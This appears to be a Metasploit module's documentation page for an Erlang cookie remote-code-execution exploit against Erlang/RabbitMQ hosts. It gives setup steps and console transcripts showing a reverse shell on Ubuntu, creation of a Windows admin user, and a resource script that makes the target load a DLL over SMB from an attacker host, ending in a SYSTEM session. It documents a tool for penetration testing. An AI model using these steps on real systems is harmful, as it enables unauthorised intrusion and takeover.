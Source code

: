 ## Vulnerable Application

  The [Erlang Port Mapper Daemon](https://www.erlang.org/) is used to coordinate distributed erlang
  instances. Should an attacker gain access to this cookie code execution is trivial. Normally this
  cookie can be found in the home directory as ".erlang.cookie", however it varies system to system
  as well as it's configuration. As an example on a Windows 10 instance it can be found under the
  users home directory: e.g "C:\Users\<USER>\.erlang.cookie". Code execution is achieved via the
  "os:cmd('cmd')." command

## Verification Steps
  
  1. Install the Erlang Port Mapper Daemon
  2. Install RabbitMQ
  3. Start `msfconsole`
  4. Do `use exploit/multi/misc/erlang_cookie_rce`
  5. Do `set RHOST <ip>`
  6. Do `set COOKIE <cookie>`
  7. Do `set TARGET <target>`
  8. Do `set LHOST <host>`
  9. `exploit` and verify shell is opened (if on windows login)

## Scenarios

### Ubuntu 16.04.5 LTS

```
msf exploit(multi/misc/erlang_cookie_rce) > options 

Module options (exploit/multi/misc/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  W.X.Y.Z          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix


msf exploit(multi/misc/erlang_cookie_rce) > exploit

[*] Started reverse TCP double handler on W.X.Y.Z:4444 
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XinIWxzXWDO5x9EM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XinIWxzXWDO5x9EM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:46410) at 2018-12-09 14:45:47 -0600

id
uid=122(rabbitmq) gid=130(rabbitmq) groups=130(rabbitmq)
```

### Windows 10 (Build 17134)

First we want to exploit the host, as an example adding a new user. (Payload is executed over cmd.exe)

```
msf exploit(multi/misc/erlang_cookie_rce) > options 

Module options (exploit/multi/misc/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/windows/adduser):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   CUSTOM                   no        Custom group name to be used instead of default
   PASS    Wetw0rkHax0r$1   yes       The password for this user
   USER    wetw0rk          yes       The username to create
   WMIC    false            yes       Use WMIC on the target to resolve administrators group


Exploit target:

   Id  Name
   --  ----
   1   Windows


msf exploit(multi/misc/erlang_cookie_rce) > exploit

[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Exploit completed, but no session was created.
```

Once exploitation is complete the tester can authenticate. Another method that can be used it SMB as shown below.

exploit.rc ->
```
use exploit/windows/smb/smb_delivery
set SHARE MSF
set TARGET 0
exploit -j
use exploit/multi/misc/erlang_cookie_rce
set COOKIE EXAMPLE
set TARGET 1
set RHOST A.B.C.D
set PAYLOAD cmd/windows/generic
set CMD "rundll32.exe \\\\W.X.Y.Z\MSF\test.dll,0"
exploit -j
```

```
msf > resource exploit.rc
[*] Processing /root/exploit.rc for ERB directives.
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on W.X.Y.Z:4444 
[*] Started service listener on W.X.Y.Z:445 
[*] Server started.
[*] Run the following command on the target machine: rundll32.exe \\W.X.Y.Z\MSF\test.dll,0
[*] Exploit running as background job 1.
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Sending stage (179779 bytes) to A.B.C.D
[*] Meterpreter session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:51856) at 2018-12-18 14:45:02 -0600
[*] Exploit completed, but no session was created.
msf exploit(multi/misc/erlang_cookie_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
